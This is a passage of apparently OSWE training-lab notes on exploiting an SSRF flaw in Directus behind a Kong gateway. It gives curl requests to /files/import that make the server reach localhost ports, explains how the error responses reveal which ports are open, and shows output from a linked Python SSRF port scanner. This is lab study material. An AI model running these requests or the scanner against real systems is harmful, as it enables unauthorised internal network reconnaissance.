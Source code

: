 As a reminder, we receive an HTTP `403 Forbidden` when we request a valid resource and an HTTP `500 Internal Server Error` with "Request failed with status code `404`" when we request a resource that doesn't exist.

We tested whether the SSRF vulnerability could be used to make Directus connect to itself by targeting localhost.
```bash
curl -i -X POST -H "Content-Type: application/json" \
  -d '{"url":"http://localhost:8000/"}' \
  http://apigateway:8000/files/import

```
Server response:
```bash
"connect ECONNREFUSED 127.0.0.1:8000"
```
This confirms Directus is not listening on port `8000` (likely API Gateway is). `"localhost"` refers to the Directus server, not the Kong API Gateway.

`localhost`:`8055` (Directus default port):
```bash
curl -i -X POST -H "Content-Type: application/json" \
  -d '{"url":"http://localhost:8055/"}' \
  http://apigateway:8000/files/import

```
Server response:
```bash
"You don't have permission to access this."

```
This confirms that SSRF request reached Directus on port `8055` as it returned HTTP `403 Forbidden`, but confirms a valid internal resource was accessed.

We can easily verify that TCP port `8055` is **closed externally on the Kong API Gateway server**. We are likely dealing with two or more servers in this scenario.
#### Port Scanning via Blind SSRF
we can still use the different HTTP response codes and error messages to determine if we've requested a valid resource. We can use this information to write a script that will exploit the SSRF vulnerability and act as a port scanner.

Rather than exhaustively scanning all 65,535 ports, we optimize SSRF-based port scanning by focusing on a small set of common ports to speedup the proccess.

A Python script was written: [ssrf_port_scanner.py](https://github.com/m0hammad-yaser/OSWE-AWAE-Notes/blob/main/apigateway/ssrf_port_scanner.py)

`"You don't have permission"` → Port OPEN (valid resource)

`"ECONNREFUSED"` → Port CLOSED

Output:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 ssrf_port_scanner.py -t http://apigateway:8000/files/import -s http://localhost --timeout 5                             
22      CLOSED
80      CLOSED
443     CLOSED
1433    CLOSED
1521    CLOSED
3306    CLOSED
3389    CLOSED
5000    CLOSED
5432    CLOSED
5900    CLOSED
6379    CLOSED
8000    CLOSED
8001    CLOSED
```